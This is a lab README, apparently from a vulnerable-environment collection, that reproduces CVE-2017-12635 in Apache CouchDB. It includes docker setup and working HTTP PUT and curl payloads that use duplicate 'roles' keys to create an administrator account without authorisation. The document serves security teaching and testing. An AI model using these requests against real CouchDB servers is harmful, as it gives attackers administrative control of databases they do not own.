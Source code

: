 # Apache Couchdb Remote Privilege Escalation (CVE-2017-12635)

[中文版本(Chinese version)](README.zh-cn.md)

Apache CouchDB is an open-source document-oriented NoSQL database, implemented in Erlang. CouchDB uses multiple formats and protocols to store, transfer, and process its data. It uses JSON to store data, JavaScript as its query language using MapReduce, and HTTP for an API.

Due to differences in the Erlang-based JSON parser and JavaScript-based JSON parser, it is possible in Apache CouchDB before 1.7.0 and 2.x before 2.1.1 to submit `_users` documents with duplicate keys for `roles` used for access control within the database, including the special case `_admin` role, that denotes administrative users.

Reference link.

 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html
 - https://www.exploit-db.com/exploits/44498
 - http://bobao.360.cn/learning/detail/4716.html

## Setup Environment

Compile and start environment.

```
docker-compose build
docker-compose up -d
```

After the environment is started, browse ``http://your-ip:5984/_utils/`` to see a web page, which means Couchdb has been started successfully. But you can do nothing without authentication.

## Exploit

This is a normal request to add a user.

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

As you can see, a 403 error is returned: `{"error": "forbidden", "reason": "Only _admin may set roles"}`, which means only administrator can use the endpoint.

![](1.png)

To bypass the restriction by sending a request containing duplicate **roles**.

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

Successfully created a user `vulhub`, with the password `vulhub`.

![](2.png)

Log in.

![](3.png)

# Ez curl solution

```
curl -X PUT http://localhost:5984/_users/org.couchdb.user:guest \
    -H "Accept: application/json" \
    -H "Content-Type: application/json" \
    -d '{"name": "guest", "password": "guest", "roles": ["_admin"], "roles": [], "type": "user"}'
```
